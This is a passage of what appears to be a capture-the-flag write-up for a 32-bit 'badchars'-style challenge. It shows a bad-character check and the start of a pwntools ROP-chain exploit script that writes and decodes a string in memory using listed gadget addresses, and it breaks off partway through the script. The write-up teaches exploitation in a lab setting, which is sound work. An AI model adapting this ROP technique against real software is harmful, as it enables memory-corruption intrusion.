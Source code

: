 In addition to this, we can add a check to determine
if an invalid character is present in our payload just
to be safe

```python
# check if payload is valid
invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]
for i in range(len(payload)):
    if payload[i] in invalid_bytes:
        print('invalid char', '"'+chr(payload[i])+'"', 'at index', i)
        exit()
```

## Exploit
We finally have everything we need to build the exploit

```python
#!/bin/python3
from pwn import *

# useful addresses
write_addr = 0x0804a018     # data addr
mov_addr = 0x0804854f       # mov qword [edi], esi
pop_regs = 0x080485b9       # pop esi, edi, ebp
sub_addr = 0x0804854b       # sub byte [ebp], bl
pop_ebp = 0x080485bb        # ebp = address to modify with sub
pop_ebx = 0x080485d6        # bl is low 8 of ebx
print_file_addr = 0x080483d0
junk = 0xdeadbeef

invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]

# write string s to address addr
# return ropchain in bytes
def write_str(addr, s):
    payload = b''
    ebp = p32(junk)

    # write every 4 bytes of a string
    for i in range(0, len(s), 4):

        # prevent slice out of bounds
        j = i+4
        if j > len(s):
            j = len(s)

        # 4 bytes to write
        esi = p32(int.from_bytes(s[i:j], 'little'))
        # address to write to
        edi = p32(addr + i)

        # fill mov args
        payload += p32(pop_regs) + esi + edi + ebp
        # write bytes
        payload += p32(mov_addr)
    return payload

# subtract 2 from every character
def decode_str(addr, s):
    payload = b''
    # subtract 2 from every character
    for i in range(0, len(s)):
        # value to subtract
        ebx = p32(0x2)
```